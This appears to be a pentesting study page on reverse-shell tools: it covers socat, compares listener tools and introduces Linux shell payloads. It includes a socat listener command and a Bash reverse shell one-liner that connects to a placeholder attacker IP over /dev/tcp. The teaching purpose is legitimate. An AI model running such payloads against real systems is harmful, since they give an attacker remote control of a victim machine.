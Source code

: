 **Socat** = "Socket Cat" (like Netcat but more advanced).  
- Can create socket connections between two data sources.  
- Supports many protocols (TCP, UDP, SSL, etc).  
- Very flexible for networking and reverse shell handling.  

### Example: Listen for Reverse Shell
```
socat -d -d TCP-LISTEN:443 STDOUT
```
### Breakdown:
- `-d` → Enable debug messages (verbosity).  
- `-d -d` → Even more verbose output.  
- `TCP-LISTEN:443` → Start a TCP listener on port `443`.  
- `STDOUT` → Print all received data directly to the terminal.  



# 📊 Comparison of Listener Tools

| Tool     | Key Feature(s)                           | When to Use |
|----------|-------------------------------------------|-------------|
| **Netcat** | Simple, classic listener.                 | Quick & basic reverse shells. |
| **Rlwrap** | Adds readline features to Netcat.         | When you want command history & arrow keys. |
| **Ncat**   | Advanced Netcat with SSL support.         | Secure/encrypted reverse shells. |
| **Socat**  | Very flexible, supports many protocols.   | Complex setups & advanced shells. |



# ⚡ Key Takeaways
- **Netcat** is the classic, but limited.  
- **Rlwrap** improves usability (arrow keys, history).
---
# 💣 Shell Payloads (Linux Examples)

A **Shell Payload** is a command or script that exposes a shell:  
- **Bind Shell** → Victim *listens* for attacker’s connection.  
- **Reverse Shell** → Victim *sends* connection back to attacker.  

Here are common reverse shell payloads in **Linux OS** using different languages.



# 🐚 Bash Reverse Shells

### 1. Normal Bash Reverse Shell
```
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```
- Opens an interactive Bash shell.  
- Redirects input/output via TCP to attacker IP:443.  
- `>&` combines output + errors into one stream.  
